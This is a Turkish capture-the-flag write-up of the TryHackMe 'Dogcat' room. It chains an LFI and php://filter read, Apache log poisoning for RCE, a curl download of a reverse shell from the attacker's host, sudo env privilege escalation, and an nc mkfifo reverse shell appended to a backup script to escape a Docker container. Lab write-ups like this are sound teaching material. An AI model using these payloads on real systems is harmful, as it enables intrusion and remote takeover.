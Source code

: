 ```yaml
---
title: "THM Dogcat Write Up"
date: 2020-10-14T21:45:22+03:00
draft: false
toc: true
images:
tags: [Tryhackme,write-up,Lfi,docker,sudo,Rce,Php-filter] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere Tryhackme'de yer alan orta seviye zorluktaki [DogCat](https://tryhackme.com/room/dogcat) adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/thm/dogcat/cover.png
  
---
```


*Merhaba, Bu yazımda sizlere Tryhackme'de yer alan orta seviye zorluktaki [DogCat](https://tryhackme.com/room/dogcat) adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar...*

## 1. Keşif Aşaması

Nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

```bash
sudo nmap -sV -sC 10.10.35.38
```

{{< image src="/images/thm/dogcat/nmap.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Sistemde sadece 2 port açıktır. Web sayfasına giriş yapılır. Anasayfada yer alan dog ve cat butonlarına tıklanarak adres çubuğuna dikkatle bakılır.

{{< image src="/images/thm/dogcat/web1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}
<br>
{{< image src="/images/thm/dogcat/web2.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

LFI zafiyeti kontrolü için /etc/passwd dosyası okunmaya çalışılır.

{{< image src="/images/thm/dogcat/lfi1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Dog ve cat dışındaki dosyalar filtreye takılımaktadır. Dog ibaresi eklenerek test tekrarlanır.

{{< image src="/images/thm/dogcat/lfi2.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Dog ve cat filtresi baypass edilidiğinde dosyaya otomatik olarak .php uzantısı eklendiği görülmektedir. Php filter kullanılarak index.php dosyası okunmaya çalışılır.

```url
?view=php://filter/convert.base64-encode/resource=./dog/../index
```

index.php dosyası başarılı bir şekilde okunur. Sonuç base64 ile decode edilir. Index.php içerisindeki php kodları incelenir.

```php
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
**containsStr()** metodu ile dog ve cat ifadeleri kontrol edilmektedir. Get isteğinde **ext** parametresi yok ise php uzantısının otomatik olarak eklendiği görülmektedir. İstek yapılırken **&ext** kullanılarak uzantı ekleme kısmı baypass edilir.

*LFI zafiyetinden RCE (Remote Code Execution) oluşturabilmek için tarayıcıdan LFI ile okunabilen bir dosyaya php kodu enjekte edilmelidir. Apache logları kontrol edilir. Özellikle access.log dosyasında web servisine atılan tüm isteklerin header bilgileri kayıt edilmektedir. Log dosyası okunmaya çalışılır.*

```url
?view=./dog/../../../../var/log/apache2/access.log&ext=
```
{{< image src="/images/thm/dogcat/logpage.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Log içeriklerine bakıldığında ***User-Agent*** bilgisininde kayıt edildiği görülmektedir. User-Agent bilgisi kod çalıştırabilecek bir php kodu ile değiştirilip istek atıldığında isteğin başlık bilgisi, log dosyasına kayıt edilir. İşlem Burpsuite aracı kullanılarak yapılır.

{{< image src="/images/thm/dogcat/user.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Daha sonra test için cmd parametresine id değeri verilerek apache access log dosyası okunmaya çalışılır.

```url
?view=./dog/../../../../var/log/apache2/access.log&ext=&cmd=id
```
{{< image src="/images/thm/dogcat/id.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

id komutu başarılı ile çalışmaktadır. Bu aşamadan sonra shell bağlantısı için birçok yol izlenebilir. Biz burada sisteme dosya upload ederek shell bağlantısı alacağız. 

Localhostta python3 http.server modulü kullanılarak web sunucusu ayağa kaldırılır. Daha sonra
 ```
&cmd=curl http://10.9.62.67:8000/reverse.php -o reverse.php 
``` 
komutu adres çubuğuna eklenir.

```url
?view=./dog/../../../../var/log/apache2/access.log&ext=&&cmd=curl http://10.9.62.67:8000/reverse.php -o reverse.php
```
{{< image src="/images/thm/dogcat/server.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Ayarlanan port dinlemeye başlanır. Daha sonra tarayıcıdan yüklenen dosyaya istek atılır ve shell bağlantısı sağlanır.

```http://10.10.35.38/reverse.php```

{{< image src="/images/thm/dogcat/shell.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Web dizine bakıldığında birinci flag dosyası okunur.

{{< image src="/images/thm/dogcat/flag1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}


## 3. Yetki Yükseltme

`sudo -l` komutu ile *www-data* kullanısının yetkileri kontrol edilir. **env** komutunun parola gerektirmeden root yetkisi ile çalıştırılabileceği tespit edilir.

{{< image src="/images/thm/dogcat/priv.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Aşağıdaki komut ile ***env*** uygulaması ile yetki yükseltilir. 

```bash
sudo /usr/bin/env /bin/bash 
```
{{< image src="/images/thm/dogcat/root1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

**find** komutu ile sistemdeki diğer flag dosyaları aranır. flag2 ve flag3 dosyaları tespit edilir. Root yetkisinde olduğumuzdan flaglar kolayca okunur.

{{< image src="/images/thm/dogcat/flags.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Makinadaki toplam 4 adet flag dosyasından 3 tanesi tespit edilmiştir. 

{{< image src="/images/thm/dogcat/makina.png" alt="Hello Friend" position="center" >}}

Makina adına dikkatlice bakıldığında docker container içerisinde olduğumuz görülmektedir. Diğer flag dosyası için container dışına çıkmamız gerekmektedir.

**/opt** dizini kontrol edildiğinde backups klasörü dikkat çekmektedir. Dizin içeriğine bakıldığında backup.sh adında shell script bulunmaktadır.

{{< image src="/images/thm/dogcat/backup.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}

*/root/container* dizini ile container içerisinde yer alan */opt/backup* dizininin volume oluşturularak bağlandığı görülmektedir. Dizindeki backup.sh dosyasına shell kodu eklenerek containerdan dışarı çıkılır.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.62.67 5555 >/tmp/f" >> backup.sh
```
nc ile 5555 port dinlenir. backup.sh dosyası containerın çalıştığı host tarafından düzenli olarak çalıştırılmaktadır. (Öyle tahmin ederek bağlantı gelmesi beklenir :shushing_face:)

{{< image src="/images/thm/dogcat/root2.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}

Kısa bir süre sonra ana makinadan shell bağlantısı alınır. Root dizini kontrol edilerek 4. flag dosyası okunur.


{{< image src="/images/thm/dogcat/rootdir.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}
<br>
{{< image src="/images/thm/dogcat/rootflagg.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}












